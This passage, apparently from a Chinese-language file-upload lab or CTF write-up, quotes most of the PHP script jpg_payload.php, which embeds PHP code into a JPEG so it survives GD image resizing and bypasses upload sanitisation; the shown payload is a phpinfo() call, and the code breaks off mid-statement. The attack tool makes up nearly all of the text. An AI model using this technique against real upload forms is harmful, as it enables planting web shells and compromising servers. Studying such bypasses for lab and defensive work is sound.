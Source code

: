 ​	同样看答案。国外大牛写的脚本jpg_payload.php，可以向jpg图片里写入代码

```php
?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

    $miniPayload = "<?=phpinfo();?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
```